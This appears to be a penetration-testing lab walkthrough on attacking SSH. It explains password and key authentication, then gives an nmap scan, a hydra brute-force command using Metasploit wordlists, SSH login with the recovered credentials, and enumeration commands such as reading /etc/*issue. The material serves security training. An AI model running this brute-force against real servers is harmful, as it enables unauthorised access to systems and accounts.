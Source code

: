# 3 - Exploiting SSH

### **Exploiting SSH**

* SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.
* It is typically used for remote access to servers and systems.
* SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
* SSH authentication can be configured in two ways:
  * Username & password authentication
  * Key based authentication
* In the case of username and password authentication, we can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.

## **Practical Demonstration**

1 - Identify Target IP.

2 - `nmap -sV $ip` - nmap scan.

3 `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt -t 4 $ip ssh` - performing a bruteforce to obtain login creds.

When you terminate the bruteforce session, you can always resume the session with `hydra -R` .

4 - \`ssh sysadmin@$ip - Connect to the target system via SSH with legitimate credentials.

> we can issue some cmds to enumerate, `whoami` , `groups sysadmin` - show the groups the user is part of. `cat /etc/*issue` - OS version, `uname -r` - kernel version.

FInd The flags associated with this Lab.


